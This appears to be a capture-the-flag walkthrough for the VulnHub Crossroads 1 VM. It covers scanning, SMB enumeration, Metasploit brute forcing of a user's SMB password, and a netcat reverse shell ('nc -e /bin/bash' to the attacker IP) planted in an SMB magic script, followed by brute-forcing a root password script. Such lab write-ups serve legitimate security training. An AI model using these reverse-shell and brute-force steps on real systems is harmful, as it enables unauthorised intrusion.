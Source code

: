 # Walkthrough-Crossroads
Walkthrough vulnhub Crossroads 1  machine

Hi guys, through this write-up we'll be talking about all the different process that lead to capture all the flags of Vulnhub Crossroads1 machine.

The machine can be downloaded on this link https://download.vulnhub.com/crossroads/crossroads_vh.ova.
Concerning the virtualisation engine, I used Virtualbox, of course it's the one that is recommended for this machine.

**Here's is the description given from Vulnhub about the machine:**

* get flags
* difficulty: easy
* about vm: tested and exported from virtualbox. dhcp and nested vtx/amdv enabled. you can contact me by email for troubleshooting or questions.
* This works better with VirtualBox rather than VMware

**Now that all have been said, let's start:**

After starting the machine in virtualbox, we have to look for our target Ip address, so to that we use the command **netdiscover**

![d](https://user-images.githubusercontent.com/63744686/116478438-98007300-a86d-11eb-839f-80d83ad68e55.png)

As you can see on the image, our target Ip address is **192.168.56.107**
but we'll be using as attacker Ip address **192.168.56.108**

Now then, let's poursue by enumerating services and ports that the target machine is running by using **nmap** command

**nmap -A -Pn- 192.168.56.107**

![d1](https://user-images.githubusercontent.com/63744686/116479614-7b653a80-a86f-11eb-94b6-de2fc8c2f305.png)


With the output of nmap command, it's shows that the target machine is running http server and smb server as well.
Knowing that, we'll continue our journey by web enumeration in other to gather more information and see if there isn't some interesting files on the web server.
so to that, we use **dirb** command to check eventuals files that might be stored on the web server

**dirb http://192.168.56.107**

![d2](https://user-images.githubusercontent.com/63744686/116480687-4fe34f80-a871-11eb-9c0d-2877c158a156.png)

So looking on image, it's possible to see that, there are somes files on the web server. While checking the content of the robot.txt file, it's mentioned inside that
the route /crossroad.png is disabled. Of course, our first impression might be to suppose that file should contain the first flag, but looking at it, it's not

![d3](https://user-images.githubusercontent.com/63744686/116487908-a441fb80-a880-11eb-8502-a1c2812943f1.png)

So then, as I said earlier, I first download the file and try to see if it's possible that something was hiden inside. To that I used a python package called **stegoveritas** to extract everthing that the picture might hide. If you do want to install the package stegoveritas on your python environnement, you just have to do **pip3 install stegoveritas** 
and there you go.
**stegoveritas crossroads.png**

![d4](https://user-images.githubusercontent.com/63744686/116488509-0c451180-a882-11eb-9d4e-1fa13ba80b4f.png)

When the file is done extracting, you'll find in your curent directory a new directory created and named **results**. Inside this one, there's another directory named keepers in which there are somes files, and among those files we find a wordlist, with it what we might expect is that soon it should come in handy while try to do a brute force attack.
bellow the wordlist file captured

![d5](https://user-images.githubusercontent.com/63744686/116489113-9e014e80-a883-11eb-92b6-816f0a52ea79.png)

Now let's save this wordlist in our repository

![d6](https://user-images.githubusercontent.com/63744686/116489011-5da1d080-a883-11eb-9570-ecc135123f74.png)

After that, we are sure there is no more interesting thing on the side, we can head to smb server side. There, we start as usually with the smb server enumeration.
First, we'll check the shared directories on the server their access permission by using **smbmap** command

**smbmap -H 192.168.56.107**

![d7](https://user-images.githubusercontent.com/63744686/116489436-7bbc0080-a884-11eb-9199-1c311ef0a597.png)

As we can see on the image, all the shared directories have **no access** permission a guest user. So we have to look for a user who has somehow an access to one of the shared 
directories. To that, we can use **enum4linux** or nmap smb enumeration script, but in my case I used enum4linux to find another user who has access to the smb server. Below the command that used

**enum4linux 192.168.56.107**

![d8](https://user-images.githubusercontent.com/63744686/116489998-ddc93580-a885-11eb-9bb1-e36702fe5d37.png)

The image beyond shows a fragment of the output of enum4linux command, and we can see on it that there's another user called **albert** on the target machine. Knowing that, let's try to find his credentials and enumerate the access he might have on the shared directories. We can use a banch of tools to brute force smb creds but in my case I used metasploit **auxiliary scanner/smb/smb_login**. 
Using the metasploit auxiliary I just mentionned, we must set our options as shown on the image below

![d9](https://user-images.githubusercontent.com/63744686/116490646-6f857280-a887-11eb-9235-918a7d2b89ad.png)

At the end of the execution we'll find as result

![d10](https://user-images.githubusercontent.com/63744686/116490749-a9567900-a887-11eb-88bb-b3b1ae50d987.png)

Now that we have the user albert creds, we can try to enumerate the kind of access he has on the shared directories with the command below

**smbmap -H 192.168.56.107 -u albert -p bradley1**

![d11](https://user-images.githubusercontent.com/63744686/116490831-ec185100-a887-11eb-8e58-ebbc670bd6b3.png)

The output of the command shows that the user albert has to **smbshare** directory with the permissions **Read and Write**, and had access on his local directory with the permission **Read only**

So then let's have access to his local directory and check what's inside

**smbmount //192.168.56.107/albert smb -o username=albert**

![d12](https://user-images.githubusercontent.com/63744686/116491274-07379080-a889-11eb-9ea4-2ac60181188f.png)

Inside the local directory of albert, is a file called **user.txt** which contain our first flag

![d13](https://user-images.githubusercontent.com/63744686/116491371-39e18900-a889-11eb-9d37-9225856b34c9.png)

While having a look to the smbshare directory, we notice that there is a smb.conf file inside. Looking at it, it's mentionned in the smbshare configuration that a user albert might be able to execute a magic script called **smbscript.sh**

![d14](https://user-images.githubusercontent.com/63744686/116491828-516d4180-a88a-11eb-8871-3e9c235223f7.png)

Knowing that, we can take advantage of it to create a **reverse TCP shell** and have an access to target machine. For that, all we have to do is used **netcat** command and create a reverse shell to the attacker machine, by simply puting in the smbscript.sh this line below

**echo nc -e /bin/bash 192.168.56.108 4444 > smbscript.sh** (we shoud mentionned that the Ip address here is the Ip of the attacker machine)

![d15](https://user-images.githubusercontent.com/63744686/116492301-744c2580-a88b-11eb-9aa5-2d0ad79fb51a.png)

Before sending the payload to target machine, we have to start listening on the port we mentionned in the smbscript.sh, using the command **nc -lvp 4444**.
After that, we are ready to go!!

![d16](https://user-images.githubusercontent.com/63744686/116492547-094f1e80-a88c-11eb-887c-daac03023fb2.png)

On the attacker server we'll have this

![d17](https://user-images.githubusercontent.com/63744686/116492635-4c10f680-a88c-11eb-889a-57f13ade122f.png)

The command that is highlighted on the is used to gain a stable shell terminal on our machine.

By checking the local directory of the user albert, we can see there's a script called **beroot**, when we execute that script, it's ask to us to enter a password for the root. 
Here is where we'll use the wordlist we retrieved form the crossroads image to brute force the script beroot. I write for that a small script to brute the script, which I put on this repository for those who are interested.

To upload the script and the wordlist on the target machine, we just have to use a python module http.Server to create a local http server and then use wget tool to download it on the target machine. Know that you'll have to process a little bit your wordlist before using it in the script or rather use the wordlitst I put on this repository

![sc](https://user-images.githubusercontent.com/63744686/116493430-487e6f00-a88e-11eb-8f9d-e6d2a83ffc1d.png)

Now let's execute the script we just downloaded and crack the beroot script

![sc1](https://user-images.githubusercontent.com/63744686/116494533-87152900-a890-11eb-91e4-b475333eef0f.png)

Everything we have to do now and find the second and last flag of this machine, is to follow the instruction given to at the end of the cracking 

![sc2](https://user-images.githubusercontent.com/63744686/116494634-c2175c80-a890-11eb-90e0-ffe300ca5f8c.png)


Here is the end of this walkthrough, I hope you guys enjoyed it. Thank you for reading!!!

